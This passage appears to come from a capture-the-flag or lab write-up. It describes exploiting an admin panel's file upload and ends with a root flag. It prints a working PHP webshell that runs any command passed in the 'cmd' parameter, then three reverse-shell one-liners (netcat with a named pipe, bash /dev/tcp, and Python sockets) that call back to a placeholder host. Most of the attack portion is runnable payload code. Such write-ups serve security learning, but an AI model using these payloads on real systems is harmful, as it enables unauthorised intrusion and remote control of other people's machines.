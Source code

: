 ![Untitled](/assets/20210718155856.png)

- In the admin panel, we also have access to a file upload.
- We can try to upload a webshell such as this one to possible get RCE, From this [gist](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985):

  ```php
  <html>
  <body>
  <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
  <input type="TEXT" name="cmd" autofocus id="cmd" size="80">
  <input type="SUBMIT" value="Execute">
  </form>
  <pre>
  <?php
  	if(isset($_GET['cmd']))
  	{
  		system($_GET['cmd']);
  	}
  ?>
  </pre>
  </body>
  </html>

  ```

  Surely enough the file goes through and we get RCE:
  ![Untitled](/assets/20210718160348.png)

- We can then proceed to get a reverse shell with a command like this (but there are plenty of commands out there):

  ```bash
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <RHOST> <RPORT> >/tmp/f
  ```

  - Other possible ones:
    ```bash
    bash -i >& /dev/tcp/<RHOST>/<RPORT> 0>&1
    ```
    or
    ```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<RHOST>",<RPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    ```

![Untitled](/assets/20210721211051.png)

Root flag:
2414e89cc5b4ae800f860afebcceaf9f

![Untitled](/assets/20210721211445.png)

